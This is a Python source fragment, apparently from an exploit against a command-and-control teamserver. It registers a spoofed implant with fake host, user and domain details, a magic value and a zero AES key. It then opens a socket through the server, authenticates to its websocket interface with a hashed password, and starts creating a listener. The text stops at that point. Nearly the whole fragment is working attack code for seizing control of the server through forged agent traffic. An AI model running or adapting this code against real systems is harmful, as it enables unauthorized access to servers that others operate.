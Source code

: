 ```python
parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()

# 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))
ip = args.ip
port = args.port

#register agent
register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)

#open socket
socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

#authenticate to teamserver
message="[***] Establishing connection to teamserver ..."
websocket_request = create_websocket_request(ip, port)
write_socket(socket_id, websocket_request,message)

message="[***] Authenticating to teamserver ..."
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame,message)

#create listener
message="[***] Creating Listener ..."
```